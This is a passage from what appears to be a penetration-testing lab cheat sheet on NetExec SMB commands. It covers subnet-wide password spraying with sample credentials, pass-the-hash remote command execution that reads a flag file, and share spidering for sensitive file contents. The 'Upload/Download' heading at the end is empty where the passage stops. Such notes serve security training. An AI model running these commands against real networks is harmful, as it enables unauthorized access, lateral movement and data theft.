 ```bash
$ nxc smb 192.168.177.0/24 -u pete -p 'Nexus123!' -d corp.com --continue-on-success
```

If the results include the `domain` , e.g. (`seruca.yzx`) → a domain account.&#x20;

```bash
$ nxc smb ip_addresses -u 'Eric.Wallows' -p EricLikesRunning800 --continue-on-success
...
SMB 192.168.152.97  445 DC01   [+] secura.yzx\Eric.Wallows:EricLikesRunning800
```

If it has `(Pw3d!)` at the end → Local `Administrator` account.

```bash
$ nxc smb ip_addresses -u 'Eric.Wallows' -p EricLikesRunning800 --continue-on-success
...
SMB 192.168.152.97 445 DC01   [+] secura.yzx\Eric.Wallows:EricLikesRunning800
SMB 192.168.152.95 445 SECURE [+] secura.yzx\Eric.Wallows:EricLikesRunning800 (Pwn3d!)
```

### RCE

{% tabs %}
{% tab title="PtH" %}
{% code overflow="wrap" %}
```bash
nxc smb 192.168.233.212 -u Administrator --hash $(cat files01_admin_ntlm) -X 'type c:\users\administrator\desktop\flag.txt'
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Spidering

{% tabs %}
{% tab title="TXT Files" %}
```bash
nxc smb <ip> -u <user> -p <pass> --spider <share> --pattern txt
```
{% endtab %}

{% tab title="File Content" %}
```bash
nxc smb <ip> -u <user> -p <pass> --spider <share> --content --regex Encrypt
```
{% endtab %}

{% tab title="Recursive" %}
```bash
nxc smb <ip> -u <user> -p <pass> --spider <share> --regex . --depth 1
```
{% endtab %}
{% endtabs %}

### Upload/Download
